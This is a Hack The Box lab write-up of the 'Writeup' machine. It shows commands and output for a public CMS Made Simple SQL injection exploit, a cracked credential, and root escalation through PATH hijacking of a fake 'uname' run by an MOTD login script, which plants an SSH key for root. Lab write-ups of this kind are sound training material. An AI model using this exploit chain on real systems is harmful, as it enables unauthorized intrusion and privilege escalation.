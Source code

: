 ```yaml
---
layout: default
title: "writeup@hackthebox"
date: 2020-02-03
permalink: /hackthebox/writeup/
categories: hackthebox sqli linux web
---
```


Summary: 

**User** - A vulnerability in an open-source content management system allows us to gather hashed credentials, which can be cracked using a wordlist.

**Root** - An MOTD script is run as root when the user account is logged into, which we can take control of.
## User
### Enumeration
We start off with a standard `nmap` scan. Normally I'd leave one running to scan all ports aggressively, but it wasn't necessary in this case.
```
root@clubby789:~# nmap writeup.htb -v
[ ... ]
Discovered open port 80/tcp on 10.10.10.138 <- Web (HTTP)
Discovered open port 22/tcp on 10.10.10.138 <- SSH
```
We'll start of by adding `10.10.10.138 writeup.htb` to our /etc/hosts file to make accessing this site easier.
### Website
Upon visiting `writeup.htb` we are greeted with this page: 
![Main page](/assets/writeup1.png)

So we've got DDoS protection in play. If we produce too many 40x errors, we'll get temporarily banned, which means no automated scanners. At this point, I guessed urls until I came across the fairly obvious `/writeup/`.
![Writeups](/assets/writeup2.png)

A quick read of the HTML finds this in the header:
 `<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved.">`. At the time, I spotted this quicker because of a very useful Firefox extension [Wappalyzer](https://www.wappalyzer.com/), which identifies many of the client and server-side technologies in use on many sites.
 
### CMSMadeSimple
 After a short search, I found [this script](https://www.exploit-db.com/exploits/46635), which exploits a SQL injection vulnerability in versions of CMSMS 2.2.9 and below. 
```
root@clubby789:~/boxes/writeup# python cms.py -u http://writeup.htb/writeup
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
The script has a built-in function to crack passwords, showing that the format of the hashes was `MD5(PASS+SALT) = HASH` (I found the script to be slow so I dropped the hashes into Hashcat).
`62def4866937f08cc13bab43bb14e6f7:5a599ef579066807` -> `raykayjay9`

```
root@clubby789:~/boxes/writeup# ssh jkr@writeup.htb 
jkr@writeup.htb's password: 
[ ... ]
user.txt
jkr@writeup:~$ cat user.txt 
d4e493....
```
And we've owned user.

## Root
### Local Enumeration
This part was definitely tricky without being on the free servers. Luckily, I was at the time, and was able to take advantage of two things: 

 - Somone had uploaded `pspy64s`, an excellent tool for discovering Cron jobs and other time-based things that may be hard to spot
 - Frequent SSH logins
If I setup two terminal panes, one with `pspy64s` and log in with SSH on the other, we see this:
![Pspy Output](/assets/writeup3.png)
The important part is 
`sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new`:

Every time `jkr` logs in over SSH, this command is run as root!

### Command Hijacking
Let's break this down: 
- `sh -c` runs everything after `-c` in `sh`
- `/usr/bin/env -i PATH=.....` sets the PATH to the given argument.
- `run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new` runs every script in the directory `/etc/update-motd.d`, and pipes the output to the MOTD file.

Inside this directory, we find a single file, `10-uname`, which simply runs:
```
#!/bin/sh
uname -rnsom
```
This directory and all its contents are owned by root and not writable, so no luck there. Let's look into the PATH that gets set, and see if we can hijack anything there. I quickly found I could write files to `/usr/local/sbin/`. Why's this important? Here's a diagram:
```
   writable                       actual location of uname
      |                                     |
      V                                     V                                 
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
As `uname`'s absolute path is not specified, the system will iterate through the given path to find it, using the first instance it finds. I'll demonstrate this with a quick POC: 
```

jkr@writeup:/tmp$ echo "touch /tmp/test" > /usr/local/sbin/uname
jkr@writeup:/tmp$ chmod +x /usr/local/sbin/uname
[ ... ]

jkr@writeup:/tmp$ ls /tmp/test -la
-rw-r--r-- 1 root root 0 Feb  3 16:16 /tmp/test
```
The file is owned by root, which means we have RCE! From here, it's a quick step to root. I uploaded my public key to `/home/jkr/.ssh/authorized_keys`, ran `echo "mkdir /root/.ssh/; cp /home/jkr/.ssh/authorized_keys /root/.ssh/authorized_keys" > /usr/local/sbin/uname; chmod +x /usr/local/sbin/uname` to create my script, then logged in to `jkr` once more (quickly, as the script gets cleared pretty often). I was then able to log out, and log back in as root!
```
root@clubby789:~# ssh writeup-root 
[ ... ]
root@writeup:~# ls
bin  root.txt
root@writeup:~# cat root.txt 
eeba47f.....
```
And we've owned root

## Final Notes
### SSH Tricks
Recently I've started making use of the SSH config file, to speed up logging in over SSH. Here's what mine looked like for this box:
```
Host writeup
	HostName 10.10.10.138
	User jkr
Host writeup-root
	HostName 10.10.10.138
	User root
```
This allows me to do `ssh writeup` or `ssh writeup-root`. After uploading my public key to `~/.ssh/authorized_keys`, this means I don't even need to enter a password.
### Cleanup script
I'm always interested in seeing how box creators keep their machines stable for other players. While in /root, I noticed `cleanup.pl`, which looks like this:
```
root@writeup:~# cat bin/cleanup.pl 
#!/usr/bin/perl
my $age = 60;
while ($_ = glob('/usr/local/sbin/* /usr/local/bin/*')) {
  next if -d $_;
  my $mtime = (stat($_))[9];
  # delete files older than 3 minutes
  # to try to not spoil others
  if(time-$mtime > $age) {
    unlink($_);
  }
}
```
This checks the age of all files in `/usr/local/sbin (or /usr/local/bin)` and deletes any older than 1 minute ( not 3 as advertised).
